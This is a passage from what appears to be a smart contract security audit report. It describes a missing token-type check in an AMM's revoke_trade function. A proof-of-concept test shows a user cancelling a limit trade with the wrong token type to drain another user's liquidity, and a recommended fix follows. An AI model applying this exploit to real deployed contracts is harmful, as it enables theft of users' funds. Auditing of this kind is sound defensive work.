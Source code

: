 This function unlocks the liquidity for a given base token type and returns the stored amount of the token to the user:

**Affected Code**:
```rust
public fun revoke_trade<BaseTokenType>(
    user: &signer,
    trade_id: u64
) acquires TradeStore, TokenStore {
    // [...]
    transfer_tokens<BaseTokenType>(trade_store, address_of(user), trade.base_amount);
    // [...]
}
```
Impact:
An attacker could potentially drain liquidity from the AMM by placing a limit trade order and canceling the order — passing the incorrect token type.

Proof of Concept:

```rust
#[test(admin=@aquaswap, user=@0x3333)]
fun WHEN_exploit_lack_of_type_checking(admin: &signer, user: &signer) acquires TokenCapability {
    let (my_eth, trade_id) = setup_with_limit_trade(admin, user, 500000000000000);

    // let's say the admin deposits some BLU
    mint<BLU>(my_eth, address_of(admin));
    let _admin_trade_id = market::limit_trade<BLU, ETH>(admin, my_eth, 500000000000000);

    // now, let's try stealing from the admin
    assert!(token::balance<ETH>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);
    assert!(token::balance<BLU>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);

    market::revoke_trade<BLU>(user, trade_id); // BLU is not the right token type!

    assert!(token::balance<ETH>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);
    assert!(token::balance<BLU>(address_of(user)) == my_eth, ERR_UNEXPECTED_BALANCE); // received BLU?
}
```

Recommendations:
Add the following type-checking assertion to the revoke_trade function:

```rust
assert!(trade.base_type == type_info::type_of<BaseTokenType>(), ERR_TRADE_WRONG_TOKEN_TYPE);

```

## VUL-003: Unbounded Execution - DOS

**Severity**: Critical  
**Likelihood**: High  
**Location**: `get_order_by_id`, `cancel_order`, `fulfill_order`
